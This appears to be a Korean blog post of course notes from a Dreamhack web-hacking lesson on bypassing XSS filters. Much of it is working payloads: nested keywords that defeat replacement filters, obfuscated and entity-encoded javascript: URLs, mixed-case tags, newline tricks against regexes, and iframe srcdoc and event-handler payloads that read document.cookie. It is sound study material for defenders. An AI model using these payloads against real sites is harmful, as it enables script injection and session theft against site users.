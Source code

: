 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass (1)"
categories: Security
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 문자열 치환 실습
- [x] 태그 기반 필터링 우회 실습

## Exploit Tech : XSS Filtering Bypass - 1

\* 강의에서 소개되는 필터링은 모두 잘못된 방식의 필터링이며, XSS 취약점을 근본적으로 제거하기 위해서는 태그 삽입이 되지 않도록 처음부터 원인을 제거해야한다

### 불충분한 XSS 필터링

HTML에는 별다른 규율 없이 정립된 규칙들이 쌓여 이를 해석하는 소프트웨어 작성에 어려움을 더했으며, HTML의 일부 기능을 비활성화하고자 하는 XSS 필터링 또한 이에 포함된다. HTML에서 js 코드를 실행하거나 페이지에 변형을 가하는 방법은 여러가지가 있으며, XSS 필터링은 이를 모두 막아야한다. 안전하지 않은 코드를 실행할 수 있는 방법은 계속 증가하고 있으므로, XSS 필터링은 안전하다고 알려진 마크업만 허용하는 보수적인 방법을 취해야한다. 일부 문자열만을 바탕으로 필터링을 진행하면 허위양성 또는 허위음성이 발생하여 필터링 자체가 제대로 이루어지지 못할 수 있다.

### 이벤트 핸들러 속성

js 코드를 실행할 수 있는 html 태그로는 script 이외에도 여러 가지 가 있다. 태그의 속성값으로 스크립트를 포함할 수 있는 경우가 다수 존재하며, 대표적으로 이벤트 핸들러를 지정하는 on으로 시작하는 속성들이 있다. (*이벤트 핸들러 : 특정 요소에서 발생하는 이벤트를 처리하기 위해 존재하는 콜백 형태의 핸들러 함수) 따라서 이 안에 XSS 공격 코드를 삽입해두면 해당 이벤트가 발생했을 때 XSS 공격 코드가 실행된다. 

대표적인 이벤트 핸들러 + [etc](https://developer.mozilla.org/ko/docs/Web/Events)

|Event handler|Description|
|:---|:---|
|onload|태그가 요청하는 데이터를 로드한 후 실행|
|onerror|태그가 요청하는 데이터를 로드하는 데 실패 시 실행|
|onfocus|input 태그에 커서를 클릭하여 focus 상태가 되면 실행<br>autofocus 속성을 사용해 자동으로 focus 시키거나, URL의 해시에 input 태그의 id 속성값을 입력하여 포커스되도록 함|

### 문자열 치환

XSS 키워드를 필터링할 때 의심되는 구문을 거부하는 대신 단순히 치환 / 제거하는 방식의 필터링 관습이 존재하며, 이러할 경우 "scr*script*ipt"와 같이 제거되는 키워드를 중간에 삽입하여 우회할 수 있다. 따라서, 필터링 자체가 무력화되며 웹 응용 방화벽에서 다음과 같은 공격 페이로드를 탐지하지 못한다.

```javascript
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```

이에 대한 대안으로, 다음과 같이 문자열에 변화가 없을 때까지 치환을 진행하는 방식이 사용되기도 하지만, 특정 키워드가 최종 마크업에 등장하지 않도록 하는 데에는 효과적이지만 고려하지 못한 구문의 방어와 WAF 방어 무력화 등은 동일하다

```javascript
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
```

### 활성 하이퍼링크

HTML 마크업에서 사용되는 URL들은 활성 콘텐츠를 포함할 수 있다. 이 중 javascript: 스키마에는 URL 로드 시 자바스크립느 코드를 실행할 수 있도록 하며, 다음 코드와 같이 URL을 속성값으로 받는 a 태그나 iframe 태그 등에 사용할 수 있다. 이 때문에 XSS 키워드를 필터링할 때, javascript: 스키마를 사용하지 못하도록 필터링 하는 경우가 존재한다.

```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```

이러한 경우에는 브라우저들이 URL을 사용할 때 거치는 과정 중 하나인 정규화를 이용해 우회할 수 있는 경우가 존재하는데, 정규화는 동일한 리소스를 나타내는 서로 다른 URL을 통일된 형태로 변환하는 과정으로, \x01, \x04와 같은 특수문자들이 제거되고, 스키마의 대소문자가 통일된다. 

```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```

태그의 속성 내에서 HTML Entity Encoding을 사용하면 javascript: 스키미나 이외의 XSS 키워드를 인코딩하여 필터링을 우회하는 경우가 존재한다. 아래는 이를 통한 우회 예시이다.

```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

js 에서는 URL 객체를 통해 URL을 직접 정규화할 수 있으며, protocol, hostname 등 URL의 각종 정보를 추출할 수 있다. XSS 필터링 우회 공격 구문을 작성하기 위해 직접 URL을 정규화하며 테스트하는 것이 가능하다

```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

### 태그와 속성 기반 필터링

단순히 태그나 속성을 바탕으로 필터링을 하게 되면 우회가 간으한 경우가 많다

1) 대문자 혹은 소문자만을 인식하는 필터 우회

```javascript
x => !x.includes('script') && !x.includes('on')
```

위와 같이 특정 키워드의 대소문자를 모두 검사하지 않을 경우, 다음과 같이 이를 우회할 수 있다

```html
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

---

2) 잘못된 정규표현식을 사용한 필터 우회

일반적으로 키워드를 필터링할 때에는 정규표현식을 이용하는데, 이에 문제가 있는 경우 정규표현식을 만족하면서 XSS 공격 구문을 삽입하는 것이 가능하다. 

다음과 스크립트 태그 내에 데이터가 존재하는 지 검사하는 정규표현식의 경우, src 속성을 통해 데이터를 입력하는 방식을 통하여 우회가 가능하다.

```javascript
x => !/<script[^>]*>[^<]/i.test(x)
```

```html
<script src="data:,alert(document.cookie)"></script>
```

또한 , 다음과 같이 img 태그에 on 이벤트 핸들러가 존재하는 지 검사하는 정규표현식의 경우, 멀티라인에 대한 검사가 존재하지 않기 때문에 줄바꿈문자를 이용해 우회할 수 있다.

```javascript
x => !/<img.*on/i.test(x)
```

```html
<img src=""\nonerror="alert(document.cookie)"/>
```

### 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회

HTML에는 굉장히 다양한 종류의 태그와 속성이 존재하므로, XSS 공격에 보편적으로 사용하는 script, img, input과 같은 태그를 필터링한다고 모든 공격을 막을 수 없다. 

다음과 같이 script, img, input 태그를 사용하지 못하도록 하는 필터링의 경우, 다른 태그를 사용해 공격을 시도할 수 있다.

```javascript
x => !/<script|<img|<input/i.test(x)
```

```html
<video><source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```

또한, 이와 같이 이벤트 핸들러와 멀티라인을 지원하는 문자까지 필터링하는 경우, iframe을 이용해 우회할 수 있다. iframe의 src는 URL을 인자로 받기에, 활성 하이퍼링크를 이용해 자바스크립트 코드를 삽입할 수 있으며, srcdoc 속성을 이용하여 inner frame 내에 새로운 공격 코드를 입력하는 것이 가능하다. 이 때 HTML Entity Encoding으로 기존 필터링을 우회할 수 있다

```javascript
x => !/<script|<img|<input|<.*on/is.test(x)
```

```html
<iframe src="javascript:alert(parent.document.domain)">
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
